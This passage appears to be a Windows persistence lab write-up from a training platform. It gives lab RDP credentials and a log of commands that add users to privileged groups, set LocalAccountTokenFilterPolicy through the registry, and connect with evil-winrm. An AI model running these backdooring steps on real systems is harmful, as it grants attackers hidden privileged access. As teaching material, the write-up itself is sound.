 For this task, we assume you have already compromised the system and obtained the password for thmuser3. For your convenience, the user can connect via RDP with the following credentials:

Username 	thmuser3
Password 	Password321

If you did everything correctly, you should be logged in to the Administrator's desktop. 


Note: When you log in via RDP, the existing in-browser view will be disconnected. After you terminate your RDP session you can get the in-browser view back by pressing Reconnect.

	Log in to the machine via RDP using thmuser3 and execute C:\flags\flag3.exe to retrieve your flag.

```
C:\Users\Administrator>net localgroup administrators thmuser0 /add
The command completed successfully.


C:\Users\Administrator>net localgroup "Backup Operators" thmuser1 /add
The command completed successfully.


C:\Users\Administrator>net localgroup "Remote Management Users" thmuser1 /add
The command completed successfully.


C:\Users\Administrator>reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
The operation completed successfully.

┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.10.6.15 -u thmuser1 -p Password321

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                               

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                 

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\thmuser1\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators             Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users      Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                 Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
```